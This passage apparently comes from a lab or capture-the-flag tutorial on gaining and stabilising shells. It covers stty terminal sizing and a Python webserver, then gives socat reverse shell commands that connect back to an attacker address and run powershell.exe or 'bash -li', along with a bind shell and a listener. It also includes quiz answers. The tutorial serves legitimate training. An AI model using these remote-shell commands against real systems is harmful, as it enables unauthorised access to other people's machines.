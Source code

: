 Next, in your reverse/bind shell, type in:
```bash
stty rows <number>
```
and
```bash
stty cols <number>
```

Filling in the numbers you got from running the command in your own terminal.

This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.
```
How would you change your terminal size to have 238 columns?
> stty cols 238
```

```
What is the syntax for setting up a Python3 webserver on port 80?
> sudo python3 -m http.server 80
```

## Task 6 - Socat 

Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. In the interests of this room, this will essentially be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points -- much like the portal gun from the Portal games!

Once again, let's start with reverse shells.

##### Reverse Shells
As mentioned previously, the syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat:
```bash
socat TCP-L:<port> -
```

As always with socat, this is taking two points (a listening port, and standard input ) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to ```nc -lvnp <port>```.

On Windows we would use this command to connect back:
```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:
```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

##### Bind Shells
On a Linux target we would use the following command:
```bash
socat TCP-L:<PORT> EXEC:"bash -li"
```

